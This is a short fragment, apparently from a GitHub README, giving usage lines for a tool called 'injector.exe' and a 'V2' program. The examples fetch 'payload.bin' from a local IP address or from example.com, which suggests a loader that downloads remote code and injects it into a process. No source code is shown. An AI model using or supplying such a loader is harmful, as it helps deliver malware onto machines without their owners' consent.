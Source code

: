 - Usage: `.\injector.exe <Hostname/IP> <Port> <Endpoint> <IsSSL (true/false)>`
- Example: `.\injector.exe 192.168.1.1 80 /payload.bin false`

*V2*
- Usage: `.\program.exe http://example.com/payload.bin`
